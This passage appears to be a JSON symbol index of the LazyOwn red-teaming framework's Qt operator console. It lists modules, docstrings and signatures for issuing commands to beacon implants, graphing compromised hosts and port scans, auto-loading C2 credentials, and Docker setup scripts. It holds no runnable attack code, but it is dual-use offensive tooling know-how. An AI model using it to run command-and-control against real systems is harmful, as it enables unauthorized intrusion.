"_dispatch_terminal_lines", "signature": "def _dispatch_terminal_lines(self, data)"}, {"doc": "Rebuild topology from the last known payload.\n\nThe graph is built from ``/api/data`` fields: ``connected_clients``,\n``connected_hosts``, ``discovered_ips``, ``result_portscan``,\n``os_data``, ``hostname``, ``ips``, and ``local_ips``.", "kind": "method", "line": 386, "name": "_refresh_topology", "signature": "def _refresh_topology(self)"}, {"kind": "method", "line": 396, "name": "_refresh_dashboard", "signature": "def _refresh_dashboard(self)"}, {"kind": "method", "line": 424, "name": "_install_http_polling", "signature": "def _install_http_polling(self)"}, {"kind": "method", "line": 443, "name": "_start_socketio", "signature": "def _start_socketio(self)"}, {"kind": "method", "line": 520, "name": "_stop_socketio", "signature": "def _stop_socketio(self)"}, {"kind": "method", "line": 530, "name": "_update_from_payload", "signature": "def _update_from_payload(self, payload)"}, {"kind": "method", "line": 537, "name": "_update_sessions", "signature": "def _update_sessions(self, payload)"}, {"kind": "method", "line": 577, "name": "_update_listeners", "signature": "def _update_listeners(self, payload)"}, {"kind": "method", "line": 608, "name": "_update_operator", "signature": "def _update_operator(self, payload)"}, {"kind": "method", "line": 621, "name": "_parse_graph_nodes", "signature": "def _parse_graph_nodes(self, payload)"}, {"kind": "method", "line": 645, "name": "_parse_graph_edges", "signature": "def _parse_graph_edges(self, payload)"}, {"doc": "Build the graph topology from ``/api/data`` fields.\n\nUses the same data the web GUI's ``generateGraph()`` function reads:\n``connected_clients`` (beacons), ``connected_hosts`` (discovered\nhosts), ``discovered_ips`` per client, ``result_portscan`` per\nclient, ``os_data``, ``hostname``, ``ips``, and ``local_ips`` for\nthe C2 label.", "kind": "method", "line": 664, "name": "_build_topology_from_payload", "signature": "def _build_topology_from_payload(self, payload)"}, {"kind": "method", "line": 780, "name": "_emit_event", "signature": "def _emit_event(self, level, message)"}, {"kind": "function", "line": 444, "name": "_connect_sio", "signature": "def _connect_sio()"}, {"kind": "function", "line": 461, "name": "_on_pty_connect", "signature": "def _on_pty_connect()"}, {"kind": "function", "line": 465, "name": "_on_pty_output", "signature": "def _on_pty_output(data)"}, {"kind": "function", "line": 471, "name": "_on_terminal_connect", "signature": "def _on_terminal_connect()"}, {"kind": "function", "line": 475, "name": "_on_terminal_response", "signature": "def _on_terminal_response(data)"}, {"kind": "function", "line": 481, "name": "_on_output", "signature": "def _on_output(data)"}, {"kind": "function", "line": 487, "name": "_on_connect", "signature": "def _on_connect()"}, {"kind": "function", "line": 491, "name": "_on_disconnect", "signature": "def _on_disconnect()"}]}, {"doc": "Theme subsystem.  Themes are described by :class:`ThemeTokens` instances. The :class:`QssBuilder` translates tokens into a Qt stylesheet, and :class:`ThemeManager` registers palettes, applies them to the running :class:`QApplication`, and emits a Qt signal when the active theme changes so widgets can react.", "id": "lazygui/theme/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "ff75eec755dd7b14", "symbol_count": 0, "symbols": []}, {"doc": "Theme registry and runtime application of stylesheets.  The :class:`ThemeManager` holds the available palettes, applies the active one onto the running :class:`QApplication`, and emits ``theme_changed`` so widgets that draw with custom painters can refresh their cached colours.", "id": "lazygui/theme/manager.py", "kind": "module", "label": "manager.py", "language": "py", "sha256": "fc15b8750f13fc4f", "symbol_count": 10, "symbols": [{"doc": "Owns palettes and applies them to the application instance.", "kind": "class", "line": 26, "name": "ThemeManager", "signature": "class ThemeManager(QObject)"}, {"doc": "Initialise the manager.\n\n:param constants: shared :class:`AppConstants` instance.\n:param settings: persisted :class:`AppSettings` for read/write of the\n    active theme identifier.\n:param application: the running ``QApplication`` instance.\n:param palettes: optional override registry; defaults to the built-in\n    palettes returned by :func:`builtin_palettes`.", "kind": "method", "line": 31, "name": "__init__", "signature": "def __init__(self, constants, settings, application, palettes, parent)"}, {"doc": "Currently active :class:`ThemeTokens`. Defaults if none set yet.", "kind": "method", "line": 57, "name": "active_tokens", "signature": "def active_tokens(self)"}, {"doc": "Identifier of the active palette.", "kind": "method", "line": 64, "name": "active_id", "signature": "def active_id(self)"}, {"doc": "Yield all registered palettes in registration order.", "kind": "method", "line": 68, "name": "available", "signature": "def available(self)"}, {"doc": "Load the saved theme identifier and apply it.", "kind": "method", "line": 72, "name": "apply_initial", "signature": "def apply_initial(self)"}, {"doc": "Activate the palette with ``identifier`` and persist the choice.", "kind": "method", "line": 80, "name": "apply", "signature": "def apply(self, identifier)"}, {"doc": "Switch to the next palette, wrapping at the end of the registry.", "kind": "method", "line": 93, "name": "cycle", "signature": "def cycle(self)"}, {"kind": "method", "line": 103, "name": "_apply_to_application", "signature": "def _apply_to_application(self, tokens)"}, {"kind": "method", "line": 109, "name": "_build_qpalette", "signature": "def _build_qpalette(tokens)"}]}, {"doc": "Built-in palette registry.  Each palette module exposes a ``TOKENS`` instance of :class:`ThemeTokens`. :func:`builtin_palettes` returns them all in declaration order so callers need not enumerate filenames manually.", "id": "lazygui/theme/palettes/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "8d0c410f6d2879e1", "symbol_count": 1, "symbols": [{"doc": "Return the built-in palette registry as ``id -> tokens``.", "kind": "function", "line": 23, "name": "builtin_palettes", "signature": "def builtin_palettes()"}]}, {"doc": "Catppuccin Mocha palette - warm pastel dark theme.", "id": "lazygui/theme/palettes/catppuccin_mocha.py", "kind": "module", "label": "catppuccin_mocha.py", "language": "py", "sha256": "e29a7f177ec09b39", "symbol_count": 0, "symbols": []}, {"doc": "Cobalt Clone palette - homage to the classic command-and-control look.", "id": "lazygui/theme/palettes/cobalt_clone.py", "kind": "module", "label": "cobalt_clone.py", "language": "py", "sha256": "1ce0fac1745ab07e", "symbol_count": 0, "symbols": []}, {"doc": "Gruvbox Dark palette - retro warm contrast theme.", "id": "lazygui/theme/palettes/gruvbox_dark.py", "kind": "module", "label": "gruvbox_dark.py", "language": "py", "sha256": "7b3e6941350bbd73", "symbol_count": 0, "symbols": []}, {"doc": "Solarized Light palette - low-contrast daylight option.", "id": "lazygui/theme/palettes/solarized_light.py", "kind": "module", "label": "solarized_light.py", "language": "py", "sha256": "3003e388bed97ad6", "symbol_count": 0, "symbols": []}, {"doc": "Tactical Green palette - the LazyOwn signature look.", "id": "lazygui/theme/palettes/tactical_green.py", "kind": "module", "label": "tactical_green.py", "language": "py", "sha256": "95e84407a89e0938", "symbol_count": 0, "symbols": []}, {"doc": "Tokyo Night palette - balanced dark blue theme.", "id": "lazygui/theme/palettes/tokyo_night.py", "kind": "module", "label": "tokyo_night.py", "language": "py", "sha256": "068403e18083a432", "symbol_count": 0, "symbols": []}, {"doc": "Builds a Qt stylesheet string from :class:`ThemeTokens`.  Centralising the QSS template here keeps widgets ignorant of styling. They declare ``objectName``s and selectors; the builder owns the visual contract.", "id": "lazygui/theme/qss_builder.py", "kind": "module", "label": "qss_builder.py", "language": "py", "sha256": "88c0d23befc68d2e", "symbol_count": 3, "symbols": [{"doc": "Renders a complete QSS sheet for a given theme.", "kind": "class", "line": 16, "name": "QssBuilder", "signature": "class QssBuilder"}, {"doc": "Return the full QSS sheet for ``tokens``.", "kind": "method", "line": 21, "name": "build", "signature": "def build(self, tokens)"}, {"kind": "method", "line": 39, "name": "_font_stack", "signature": "def _font_stack(stack)"}]}, {"doc": "Design tokens describing a single theme.  Tokens are immutable. They cover colours, typography sizes and corner radii. Anything that should differ between themes must be expressed here so the QSS builder can render it without consulting any other source of truth.", "id": "lazygui/theme/tokens.py", "kind": "module", "label": "tokens.py", "language": "py", "sha256": "e8a59ed471f2d2c3", "symbol_count": 1, "symbols": [{"doc": "Atomic design tokens for one theme variant.", "kind": "class", "line": 14, "name": "ThemeTokens", "signature": "class ThemeTokens"}]}, {"doc": "Single source of truth for the package version string.", "id": "lazygui/version.py", "kind": "module", "label": "version.py", "language": "py", "sha256": "13dcafc0ee9a0a6b", "symbol_count": 0, "symbols": []}, {"doc": "Reusable widgets.  Each widget is owned by a single concern and accepts the global :class:`AppConstants` plus the active :class:`ThemeTokens` so it can render itself consistently with the rest of the application without depending on panels, windows, or backends.", "id": "lazygui/widgets/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "c864f964f1dd64e3", "symbol_count": 0, "symbols": []}, {"doc": "Beacon command modal — send commands to beacons and inspect full history.  The modal is the primary operator surface for issuing commands to a beacon implant and reviewing both real-time results and the persisted command history served by the teamserver. History is loaded from the backend (request_beacon_history) so prior engagements survive restarts; live results stream in through the ``beacon_result`` signal.", "id": "lazygui/widgets/beacon_command_modal.py", "kind": "module", "label": "beacon_command_modal.py", "language": "py", "sha256": "6c12c8d38f888bb5", "symbol_count": 14, "symbols": [{"doc": "A single command/result entry shown in the modal history list.", "kind": "class", "line": 35, "name": "_HistoryEntry", "signature": "class _HistoryEntry"}, {"doc": "Modal dialog for executing commands on a beacon and viewing results.\n\nSignals:\n    command_sent: Emitted with the target and command when dispatched.", "kind": "class", "line": 44, "name": "BeaconCommandModal", "signature": "class BeaconCommandModal(QDialog)"}, {"doc": "Initialise the modal with a backend reference.\n\nArgs:\n    backend: The active backend for dispatching commands.\n    parent: Optional parent widget.", "kind": "method", "line": 53, "name": "__init__", "signature": "def __init__(self, backend, parent)"}, {"kind": "method", "line": 75, "name": "_build_ui", "signature": "def _build_ui(self)"}, {"doc": "Return the current target id, or empty string for the C2 global.", "kind": "method", "line": 122, "name": "_selected_target", "signature": "def _selected_target(self)"}, {"kind": "method", "line": 127, "name": "_on_target_changed", "signature": "def _on_target_changed(self, _text)"}, {"doc": "Load and render the persisted history for the selected target.", "kind": "method", "line": 131, "name": "_reload_history", "signature": "def _reload_history(self)"}, {"doc": "Refresh the target selector from the backend session list.", "kind": "method", "line": 168, "name": "_on_sessions_changed", "signature": "def _on_sessions_changed(self, sessions)"}, {"doc": "Dispatch the typed command to the selected beacon.", "kind": "method", "line": 182, "name": "_send_command", "signature": "def _send_command(self)"}, {"kind": "method", "line": 196, "name": "_on_history_clicked", "signature": "def _on_history_clicked(self, item)"}, {"kind": "method", "line": 201, "name": "_last_entry", "signature": "def _last_entry(self, index)"}, {"doc": "Append a live beacon result to the output view and history.", "kind": "method", "line": 209, "name": "_on_beacon_result", "signature": "def _on_beacon_result(self, result)"}, {"doc": "Populate sessions before showing.", "kind": "method", "line": 216, "name": "open", "signature": "def open(self)"}, {"doc": "Move keyboard focus to the command input.", "kind": "method", "line": 227, "name": "focus_input", "signature": "def focus_input(self)"}]}, {"doc": "Result list and action model for the command palette.", "id": "lazygui/widgets/command_palette_list.py", "kind": "module", "label": "command_palette_list.py", "language": "py", "sha256": "ed078c2adbcfbe8a", "symbol_count": 10, "symbols": [{"doc": "A user-visible entry inside the command palette.", "kind": "class", "line": 16, "name": "CommandPaletteAction", "signature": "class CommandPaletteAction"}, {"doc": "List view backed by a fuzzy-filtered :class:`CommandPaletteAction` set.", "kind": "class", "line": 28, "name": "CommandPaletteList", "signature": "class CommandPaletteList(QListView)"}, {"doc": "Return a sortable score (lower is better) or ``-1`` if no match.\n\nThe algorithm prefers matches in ``title`` over ``subtitle`` and rewards\nshorter strings, which keeps highly relevant short titles at the top.", "kind": "function", "line": 99, "name": "_fuzzy_score", "signature": "def _fuzzy_score(query, title, subtitle)"}, {"doc": "Score by ensuring all query chars appear in order somewhere in haystack.", "kind": "function", "line": 114, "name": "_token_order_score", "signature": "def _token_order_score(query, haystack, base_offset)"}, {"doc": "Store the action set and prepare the underlying model.", "kind": "method", "line": 33, "name": "__init__", "signature": "def __init__(self, constants, actions, parent)"}, {"doc": "Replace the entire action registry and reset the filter.", "kind": "method", "line": 53, "name": "set_actions", "signature": "def set_actions(self, actions)"}, {"doc": "Filter the action set using a substring + token-order heuristic.", "kind": "method", "line": 58, "name": "apply_filter", "signature": "def apply_filter(self, query)"}, {"doc": "Invoke whichever action is currently highlighted, if any.", "kind": "method", "line": 76, "name": "invoke_current", "signature": "def invoke_current(self)"}, {"doc": "Forward double-click / Enter to :meth:`invoke_current`.", "kind": "method", "line": 85, "name": "_on_activated", "signature": "def _on_activated(self, _index)"}, {"doc": "Rebuild the item model with one row per action.", "kind": "method", "line": 89, "name": "_populate", "signature": "def _populate(self, actions)"}]}, {"doc": "Read-only viewer for :class:`EventLog` records.", "id": "lazygui/widgets/event_log_view.py", "kind": "module", "label": "event_log_view.py", "language": "py", "sha256": "5487321795c78be3", "symbol_count": 6, "symbols": [{"doc": "Tree-style log viewer wired to an :class:`EventLog` instance.", "kind": "class", "line": 20, "name": "EventLogView", "signature": "class EventLogView(QTreeWidget)"}, {"doc": "Bind the view to ``event_log`` and configure columns/headers.", "kind": "method", "line": 23, "name": "__init__", "signature": "def __init__(self, constants, event_log, parent)"}, {"doc": "Filter view to records of severity >= ``level`` and reload.", "kind": "method", "line": 51, "name": "set_minimum_level", "signature": "def set_minimum_level(self, level)"}, {"doc": "Currently active severity filter.", "kind": "method", "line": 61, "name": "minimum_level", "signature": "def minimum_level(self)"}, {"doc": "Append the record only if it passes the severity filter.", "kind": "method", "line": 65, "name": "_on_record_appended", "signature": "def _on_record_appended(self, record)"}, {"doc": "Render a single record as a top-level item.", "kind": "method", "line": 71, "name": "_append_record", "signature": "def _append_record(self, record)"}]}, {"doc": "Reusable text-filter bar with debounced ``filter_changed`` signal.", "id": "lazygui/widgets/filter_bar.py", "kind": "module", "label": "filter_bar.py", "language": "py", "sha256": "7a6e2d16bc722bd0", "symbol_count": 6, "symbols": [{"doc": "Single-line text filter that debounces emissions for table views.", "kind": "class", "line": 11, "name": "FilterBar", "signature": "class FilterBar(QWidget)"}, {"doc": "Lay out a label + line edit and wire up debounce timing.", "kind": "method", "line": 16, "name": "__init__", "signature": "def __init__(self, constants, placeholder_text, label_text, parent)"}, {"doc": "Current filter text.", "kind": "method", "line": 42, "name": "text", "signature": "def text(self)"}, {"doc": "Reset the filter to an empty string.", "kind": "method", "line": 46, "name": "clear", "signature": "def clear(self)"}, {"doc": "Restart the debounce timer on any keystroke.", "kind": "method", "line": 50, "name": "_on_text_changed", "signature": "def _on_text_changed(self, _value)"}, {"doc": "Emit ``filter_changed`` once the user has stopped typing.", "kind": "method", "line": 54, "name": "_emit_filter_changed", "signature": "def _emit_filter_changed(self)"}]}, {"doc": "Interactive attack topography graph widget.  Renders the C2 beacon graph using Qt Graphics Framework (QGraphicsView). Nodes represent servers, beacons and hosts. Edges represent connections. Supports drag, zoom, selection highlighting and context menus.", "id": "lazygui/widgets/graph_view.py", "kind": "module", "label": "graph_view.py", "language": "py", "sha256": "247e4c60863a0a20", "symbol_count": 41, "symbols": [{"kind": "function", "line": 47, "name": "_resolve_icon_dir", "signature": "def _resolve_icon_dir()"}, {"kind": "function", "line": 63, "name": "_load_icon", "signature": "def _load_icon(name)"}, {"kind": "function", "line": 81, "name": "_icon_for_node", "signature": "def _icon_for_node(node)"}, {"doc": "Internal state for a graph node being laid out.", "kind": "class", "line": 132, "name": "GraphNodeState", "signature": "class GraphNodeState"}, {"doc": "A single node in the graph with label and selection support.", "kind": "class", "line": 140, "name": "GraphNodeItem", "signature": "class GraphNodeItem(QGraphicsEllipseItem)"}, {"doc": "A line connecting two graph nodes with optional label.", "kind": "class", "line": 285, "name": "GraphEdgeItem", "signature": "class GraphEdgeItem(QGraphicsLineItem)"}, {"doc": "Scene managing all graph nodes and edges with physics layout.", "kind": "class", "line": 334, "name": "GraphScene", "signature": "class GraphScene(QGraphicsScene)"}, {"doc": "Interactive graph view with zoom, pan and physics animation.", "kind": "class", "line": 499, "name": "GraphView", "signature": "class GraphView(QGraphicsView)"}, {"kind": "function", "line": 575, "name": "_resolve_node_color", "signature": "def _resolve_node_color(node)"}, {"kind": "function", "line": 584, "name": "_resolve_node_radius", "signature": "def _resolve_node_radius(node)"}, {"kind": "method", "line": 143, "name": "__init__", "signature": "def __init__(self, node, radius, color, pixmap, on_selected, on_context_menu, label_visible, parent)"}, {"kind": "method", "line": 173, "name": "_create_label", "signature": "def _create_label(self)"}, {"doc": "Return the immutable node data associated with this item.", "kind": "method", "line": 186, "name": "node_data", "signature": "def node_data(self)"}, {"kind": "method", "line": 190, "name": "paint", "signature": "def paint(self, painter, option, widget)"}, {"kind": "method", "line": 248, "name": "mousePressEvent", "signature": "def mousePressEvent(self, event)"}, {"kind": "method", "line": 259, "name": "mouseReleaseEvent", "signature": "def mouseReleaseEvent(self, event)"}, {"kind": "method", "line": 266, "name": "hoverEnterEvent", "signature": "def hoverEnterEvent(self, event)"}, {"kind": "method", "line": 273, "name": "hoverLeaveEvent", "signature": "def hoverLeaveEvent(self, event)"}, {"kind": "method", "line": 279, "name": "itemChange", "signature": "def itemChange(self, change, value)"}, {"kind": "method", "line": 288, "name": "__init__", "signature": "def __init__(self, edge, source_item, target_item, parent)"}, {"kind": "method", "line": 313, "name": "_update_position", "signature": "def _update_position(self)"}, {"doc": "Recalculate the line endpoints from source and target positions.", "kind": "method", "line": 324, "name": "update_position", "signature": "def update_position(self)"}, {"doc": "Return the immutable edge data.", "kind": "method", "line": 329, "name": "edge_data", "signature": "def edge_data(self)"}, {"kind": "method", "line": 340, "name": "__init__", "signature": "def __init__(self, constants, parent)"}, {"doc": "Replace the current graph with a new topology using force layout.", "kind": "method", "line": 349, "name": "set_topology", "signature": "def set_topology(self, topology)"}, {"kind": "method", "line": 369, "name": "_add_node", "signature": "def _add_node(self, node)"}, {"kind": "method", "line": 393, "name": "_add_edge", "signature": "def _add_edge(self, edge)"}, {"kind": "method", "line": 402, "name": "_apply_force_layout", "signature": "def _apply_force_layout(self)"}, {"doc": "Run one iteration of force-directed layout. Returns False when stable.", "kind": "method", "line": 419, "name": "step_physics", "signature": "def step_physics(self)"}, {"doc": "Return the identifier of the first selected node, or None.", "kind": "method", "line": 491, "name": "selected_node_id", "signature": "def selected_node_id(self)"}, {"kind": "method", "line": 509, "name": "__init__", "signature": "def __init__(self, constants, parent)"}, {"doc": "Update graph background and default edge colour from theme tokens.", "kind": "method", "line": 527, "name": "set_theme_colors", "signature": "def set_theme_colors(self, bg_color, edge_color)"}, {"doc": "Render a new graph topology.", "kind": "method", "line": 535, "name": "set_topology", "signature": "def set_topology(self, topology)"}, {"kind": "method", "line": 540, "name": "_install_physics_timer", "signature": "def _install_physics_timer(self)"}, {"kind": "method", "line": 548, "name": "_tick_physics", "signature": "def _tick_physics(self)"}, {"kind": "method", "line": 551, "name": "wheelEvent", "signature": "def wheelEvent(self, event)"}, {"doc": "Return the identifier of the currently selected node.", "kind": "method", "line": 561, "name": "selected_node_id", "signature": "def selected_node_id(self)"}, {"doc": "Zoom to fit all graph content.", "kind": "method", "line": 565, "name": "fit_to_content", "signature": "def fit_to_content(self)"}, {"doc": "Return the underlying graph scene.", "kind": "method", "line": 570, "name": "scene_handle", "signature": "def scene_handle(self)"}, {"kind": "function", "line": 374, "name": "_on_selected", "signature": "def _on_selected(nid)"}, {"kind": "function", "line": 377, "name": "_on_context_menu", "signature": "def _on_context_menu(nid, pos)"}]}, {"doc": "Compact label that reflects a :class:`BackendStatus` value.", "id": "lazygui/widgets/status_badge.py", "kind": "module", "label": "status_badge.py", "language": "py", "sha256": "d782f4f4e9bb6b4b", "symbol_count": 3, "symbols": [{"doc": "Status label whose ``objectName`` reflects severity for QSS styling.", "kind": "class", "line": 18, "name": "StatusBadge", "signature": "class StatusBadge(QLabel)"}, {"doc": "Create the badge in the disconnected state.", "kind": "method", "line": 21, "name": "__init__", "signature": "def __init__(self, parent)"}, {"doc": "Update label text and the object name driving QSS colour.", "kind": "method", "line": 27, "name": "set_status", "signature": "def set_status(self, status)"}]}, {"doc": "ANSI-aware terminal viewer.  Strips ANSI escape codes and control characters before appending text. Handles cmd2 prompt rendering, colour codes, cursor positioning, and carriage-return semantics.", "id": "lazygui/widgets/terminal_view.py", "kind": "module", "label": "terminal_view.py", "language": "py", "sha256": "1911e095271f2075", "symbol_count": 6, "symbols": [{"doc": "Plain-text view that consumes backend output and emits keystrokes.", "kind": "class", "line": 33, "name": "TerminalView", "signature": "class TerminalView(QPlainTextEdit)"}, {"doc": "Configure the widget for log-style append-only behaviour.", "kind": "method", "line": 38, "name": "__init__", "signature": "def __init__(self, constants, parent)"}, {"doc": "Append ``text`` after stripping ANSI control codes and control chars.", "kind": "method", "line": 54, "name": "append_output", "signature": "def append_output(self, text)"}, {"kind": "method", "line": 66, "name": "_sanitize", "signature": "def _sanitize(raw)"}, {"doc": "Forward keystrokes to listeners instead of mutating the buffer.", "kind": "method", "line": 75, "name": "keyPressEvent", "signature": "def keyPressEvent(self, event)"}, {"doc": "Return the raw bytes a backend should receive, or ``None`` to ignore.", "kind": "method", "line": 85, "name": "_translate_key_event", "signature": "def _translate_key_event(event)"}]}, {"doc": "Top-level windows and dialogs.", "id": "lazygui/windows/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "728728a072e3196f", "symbol_count": 0, "symbols": []}, {"doc": "Frameless palette window invoked by ``Ctrl+K``.", "id": "lazygui/windows/command_palette_window.py", "kind": "module", "label": "command_palette_window.py", "language": "py", "sha256": "c2a55b41c18c84c0", "symbol_count": 6, "symbols": [{"doc": "Frameless overlay that fuzzy-filters and dispatches actions.", "kind": "class", "line": 15, "name": "CommandPaletteWindow", "signature": "class CommandPaletteWindow(QWidget)"}, {"doc": "Build the search input plus the result list.", "kind": "method", "line": 18, "name": "__init__", "signature": "def __init__(self, constants, actions, parent)"}, {"doc": "Replace the action set on the underlying list.", "kind": "method", "line": 43, "name": "set_actions", "signature": "def set_actions(self, actions)"}, {"doc": "Intercept Enter and Esc, otherwise delegate to the search box.", "kind": "method", "line": 48, "name": "keyPressEvent", "signature": "def keyPressEvent(self, event)"}, {"doc": "Move keyboard focus into the search box on every open.", "kind": "method", "line": 71, "name": "showEvent", "signature": "def showEvent(self, event)"}, {"doc": "Run the selected action and dismiss the palette.", "kind": "method", "line": 77, "name": "_on_action_invoked", "signature": "def _on_action_invoked(self, action)"}]}, {"doc": "Connection dialog for picking a backend.  The dialog lets the operator choose between the local console and a remote teamserver. Picked values are returned as :class:`ConnectionRequest` so the caller decides what to do (e.g. instantiate a backend, persist last selection, hand it off to the main window).  Auto-discovered credentials from ``.c2_credentials.txt`` are pre-filled when available so the operator doesn't need to type them manually.", "id": "lazygui/windows/connect_dialog.py", "kind": "module", "label": "connect_dialog.py", "language": "py", "sha256": "a8cde829b42fe2c1", "symbol_count": 9, "symbols": [{"doc": "Result of a successful :class:`ConnectDialog` interaction.", "kind": "class", "line": 39, "name": "ConnectionRequest", "signature": "class ConnectionRequest"}, {"doc": "Modal dialog returning a :class:`ConnectionRequest` on accept.", "kind": "class", "line": 50, "name": "ConnectDialog", "signature": "class ConnectDialog(QDialog)"}, {"doc": "Build the form and pre-fill from persisted settings + credentials file.", "kind": "method", "line": 53, "name": "__init__", "signature": "def __init__(self, constants, settings, paths, parent)"}, {"doc": "Translate current widget state into a :class:`ConnectionRequest`.", "kind": "method", "line": 105, "name": "request", "signature": "def request(self)"}, {"doc": "Save the picked values back into :class:`AppSettings`.", "kind": "method", "line": 120, "name": "persist_choice", "signature": "def persist_choice(self)"}, {"doc": "Static description for the local backend page.", "kind": "method", "line": 135, "name": "_build_local_page", "signature": "def _build_local_page(self)"}, {"doc": "Form for teamserver URL + credentials.", "kind": "method", "line": 150, "name": "_build_teamserver_page", "signature": "def _build_teamserver_page(self)"}, {"doc": "Pre-fill the form from persisted settings and auto-discovered credentials.", "kind": "method", "line": 168, "name": "_restore_last_choice", "signature": "def _restore_last_choice(self)"}, {"doc": "Switch the stacked widget to match the selected kind.", "kind": "method", "line": 186, "name": "_on_kind_changed", "signature": "def _on_kind_changed(self, index)"}]}, {"doc": "Operator console main window.  Composes panels, menus, toolbar, status bar and shortcuts. Owns no business logic of its own — every interaction either mutates the active :class:`Backend` (issuing a command, refreshing) or the persisted :class:`AppSettings` (theme, layout).", "id": "lazygui/windows/main_window.py", "kind": "module", "label": "main_window.py", "language": "py", "sha256": "d5bbbaef4ffcc4ae", "symbol_count": 28, "symbols": [{"doc": "Top-level operator window with Cobalt Strike-inspired layout.", "kind": "class", "line": 37, "name": "MainWindow", "signature": "class MainWindow(QMainWindow)"}, {"doc": "Wire the dependencies and build the full layout.", "kind": "method", "line": 40, "name": "__init__", "signature": "def __init__(self, constants, settings, theme_manager, backend, event_log, parent)"}, {"doc": "Persist geometry, layout and theme before closing.", "kind": "method", "line": 99, "name": "closeEvent", "signature": "def closeEvent(self, event)"}, {"doc": "Build Cobalt Strike-style layout: graph center, tabs left, terminal right, log bottom.", "kind": "method", "line": 108, "name": "_install_layout", "signature": "def _install_layout(self)"}, {"doc": "Build a minimal File / View / Theme menu bar.", "kind": "method", "line": 131, "name": "_install_menu_bar", "signature": "def _install_menu_bar(self)"}, {"doc": "Build a single toolbar with the most common actions.", "kind": "method", "line": 171, "name": "_install_toolbar", "signature": "def _install_toolbar(self)"}, {"doc": "Build a status bar with backend badge, beacon count, operator label and clock.", "kind": "method", "line": 195, "name": "_install_statusbar", "signature": "def _install_statusbar(self)"}, {"doc": "Bind global shortcuts not already attached to menu actions.", "kind": "method", "line": 220, "name": "_install_shortcuts", "signature": "def _install_shortcuts(self)"}, {"doc": "Encode current geometry/layout into settings.", "kind": "method", "line": 244, "name": "_persist_geometry_and_state", "signature": "def _persist_geometry_and_state(self)"}, {"doc": "Restore geometry/layout from settings, ignoring corrupt blobs.", "kind": "method", "line": 252, "name": "_restore_geometry_and_state", "signature": "def _restore_geometry_and_state(self)"}, {"doc": "Build the palette catalog from menu and panel toggles.", "kind": "method", "line": 261, "name": "_build_palette_actions", "signature": "def _build_palette_actions(self)"}, {"doc": "Closure that toggles the visibility of ``panel``.", "kind": "method", "line": 300, "name": "_make_panel_toggle", "signature": "def _make_panel_toggle(self, panel)"}, {"doc": "Closure that applies the theme with ``identifier``.", "kind": "method", "line": 311, "name": "_make_theme_apply", "signature": "def _make_theme_apply(self, identifier)"}, {"doc": "Refresh the status-bar operator label.", "kind": "method", "line": 319, "name": "_on_operator_changed", "signature": "def _on_operator_changed(self, operator)"}, {"doc": "Surface the most recent event as a transient status bar message.", "kind": "method", "line": 326, "name": "_on_event_logged", "signature": "def _on_event_logged(self, _record)"}, {"doc": "Update the theme label and graph colours when a new palette is applied.", "kind": "method", "line": 329, "name": "_on_theme_changed", "signature": "def _on_theme_changed(self, tokens)"}, {"doc": "Apply the theme stored in the triggering action's data field.", "kind": "method", "line": 337, "name": "_on_theme_menu_action", "signature": "def _on_theme_menu_action(self)"}, {"doc": "Update the beacon count badge in the status bar.", "kind": "method", "line": 345, "name": "_on_sessions_count_changed", "signature": "def _on_sessions_count_changed(self, sessions)"}, {"doc": "Update status bar from dashboard payload.", "kind": "method", "line": 350, "name": "_on_dashboard_updated", "signature": "def _on_dashboard_updated(self, dashboard)"}, {"doc": "Open the beacon command dialog.", "kind": "method", "line": 354, "name": "_show_beacon_command_modal", "signature": "def _show_beacon_command_modal(self)"}, {"doc": "Show and centre the command palette.", "kind": "method", "line": 361, "name": "_show_command_palette", "signature": "def _show_command_palette(self)"}, {"doc": "Surface a request to open the connect dialog (handled by Application).", "kind": "method", "line": 372, "name": "_emit_request_connect", "signature": "def _emit_request_connect(self)"}, {"doc": "Hook overridden by :class:`Application` to swap backend at runtime.", "kind": "method", "line": 376, "name": "window_requests_connect", "signature": "def window_requests_connect(self)"}, {"doc": "Update the clock label once per ``statusbar_clock_interval_ms``.", "kind": "method", "line": 386, "name": "_tick_clock", "signature": "def _tick_clock(self)"}, {"doc": "Expose the badge so the application can update it on backend swaps.", "kind": "method", "line": 393, "name": "status_badge", "signature": "def status_badge(self)"}, {"doc": "Expose the panel registry for backend swaps.", "kind": "method", "line": 398, "name": "panels", "signature": "def panels(self)"}, {"kind": "function", "line": 303, "name": "_toggle", "signature": "def _toggle()"}, {"kind": "function", "line": 314, "name": "_apply", "signature": "def _apply()"}]}, {"doc": "LazyOwn Entrypoint Script Initializes LazyOwn framework in a Docker container with tmux sessions", "id": "lazyown-docker/entrypoint.sh", "kind": "module", "label": "entrypoint.sh", "language": "sh", "sha256": "6b5ae9f42c9e5858", "symbol_count": 0, "symbols": []}, {"id": "lazyown-docker/hostdiscover.sh", "kind": "module", "label": "hostdiscover.sh", "language": "sh", "sha256": "84f3ae7e740afd9e", "symbol_count": 2, "symbols": [{"kind": "function", "line": 21, "name": "extract_ips_from_arp"}, {"kind": "function", "line": 26, "name": "extract_listening_ips_from_netstat"}]}, {"id": "lazyown-docker/init.sh", "kind": "module", "label": "init.sh", "language": "sh", "sha256": "5516a23d51ff07a0", "symbol_count": 0, "symbols": []}, {"doc": "LazyOwn Dockerizer Script Builds, runs, and manages Docker containers for LazyOwn red teaming framework", "id": "lazyown-docker/mkdocker.sh", "kind": "module", "label": "mkdocker.sh", "language": "sh", "sha256": "eb63093ccd643701", "symbol_count": 12, "symbols": [{"doc": "Help message", "kind": "function", "line": 23, "name": "usage"}, {"doc": "Log function", "kind": "function", "line": 36, "name": "log"}, {"doc": "Check if Docker is running", "kind": "function", "line": 41, "name": "check_docker"}, {"doc": "Check if file exists", "kind": "function", "line": 49, "name": "check_file"}, {"doc": "Check if container exists", "kind": "function", "line": 58, "name": "container_exists"}, {"doc": "Check if image exists", "kind": "function", "line": 63, "name": "image_exists"}, {"doc": "Get ports from payload.json", "kind": "function", "line": 68, "name": "get_ports"}, {"doc": "Build Docker image", "kind": "function", "line": 93, "name": "build_image"}, {"doc": "Validate payload.json exists", "kind": "function", "line": 109, "name": "validate_payload"}, {"doc": "Run container", "kind": "function", "line": 117, "name": "run_container"}, {"doc": "Stop container", "kind": "function", "line": 187, "name": "stop_container"}, {"doc": "Clean container and image", "kind": "function", "line": 197, "name": "clean_container_and_image"}]}, {"doc": "lazyown  Author: Gris Iscomeback Email: 